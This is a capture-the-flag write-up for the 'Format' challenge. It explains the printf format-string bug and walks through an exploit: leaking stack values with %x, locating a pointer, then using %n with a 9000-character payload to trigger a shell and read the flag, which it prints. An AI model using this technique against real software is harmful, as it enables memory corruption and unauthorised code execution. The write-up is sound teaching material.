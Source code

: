 # 70 - Format

*Written by Michael Zhang and Sean Anderson*

## Problem

The function printf can do a lot of great things, but depends on how you use it. Try to exploit this very irresponsible use of printf.

Problem can be found at `/problems/format1` and source can be downloaded [here](format1.c).

## Hint

This line might interest you... `printf(argv[1]);`. What happens if no format arguments are provided?

## Solution

This program does not use printf correctly, using user input as a format string.  This allows the user to view and modify the stack of the program.  For example, to view some data on the stack, simply put a valid format string as the program's first argument:

```bash
$ ./format1 %x
1bc3be08$
```

At first glance, it seems that all printf can do is print data, however it can also write abitrary values using the `%n` format string.  From the man page:

>  The number of characters written so far is stored into the integer indicated by the int * (or variant) pointer argument.  No argument is converted.

Therefore, all we need to do is write more than 9000 characters, and `vuln()` will execute.  To do this, we need to find out what pointer the program uses to refer to `key`.  First, lets load up get a disassembly with `objdump -d format1`

```
000000000040064e <main>:
  40064e:	55                   	push   %rbp
  40064f:	48 89 e5             	mov    %rsp,%rbp
  400652:	48 83 ec 20          	sub    $0x20,%rsp
  400656:	89 7d ec             	mov    %edi,-0x14(%rbp)
  400659:	48 89 75 e0          	mov    %rsi,-0x20(%rbp)
  40065d:	48 c7 45 f8 50 10 60 	movq   $0x601050,-0x8(%rbp)
  400664:	00 
  400665:	48 8b 45 e0          	mov    -0x20(%rbp),%rax
  400669:	48 83 c0 08          	add    $0x8,%rax
  40066d:	48 8b 00             	mov    (%rax),%rax
  400670:	48 89 c7             	mov    %rax,%rdi
  400673:	b8 00 00 00 00       	mov    $0x0,%eax
  400678:	e8 63 fe ff ff       	callq  4004e0 <printf@plt>
  40067d:	8b 05 cd 09 20 00    	mov    0x2009cd(%rip),%eax        # 601050 <__TMC_END__>
  400683:	3d 28 23 00 00       	cmp    $0x2328,%eax
  400688:	7e 0a                	jle    400694 <main+0x46>
  40068a:	b8 00 00 00 00       	mov    $0x0,%eax
  40068f:	e8 82 ff ff ff       	callq  400616 <vuln>
  400694:	b8 00 00 00 00       	mov    $0x0,%eax
  400699:	c9                   	leaveq 
  40069a:	c3                   	retq   
  40069b:	0f 1f 44 00 00       	nopl   0x0(%rax,%rax,1)
```
   
  We can see that in `<main+15>`, `0x601050` is stored onto the stack as a local variable.  Next, lets see where on the stack the local variable is when we run printf:
  
```
$ ./format1 %x-%x-%x-%x-%x-%x-%x-%x-%x-%x
42d3038-42d3050-4006a0-e1bdce80-e1bdce80-42d3038-400520-42d3030-601050-4006a0$ 
```

We can see that the pointer `601050` is the 9th value on the stack.  (In the competition it was the 7th, but this is a different compile).  Based on this information, the input of the program should be

```
$ ./format1 garbagedata%x%x%x%x%x%x%x%x%n
```

It is very tedious to type out over 9000 characters of garbage, so we will create a file with this data.  

```
$ for i in `seq 1 9000`; do echo -n "x"; done > ~/xs.txt
$ echo "%x%x%x%x%x%x%x%x%n" | cat ~/xs.txt - > ~/arg.txt
```

Now that we have the garbage, all we have to do is feed it into the program and get the flag.

```
$ xargs -a ~/arg.txt ./format1
xxxxxxxxxxxxxxxxxxxxxxxx ... xxxxxxxx$ whoami
format1
$ cat flag.txt
it's over 9000!!11!1one1!
$ exit
```

## Flag

`it's over 9000!!11!1one1!`










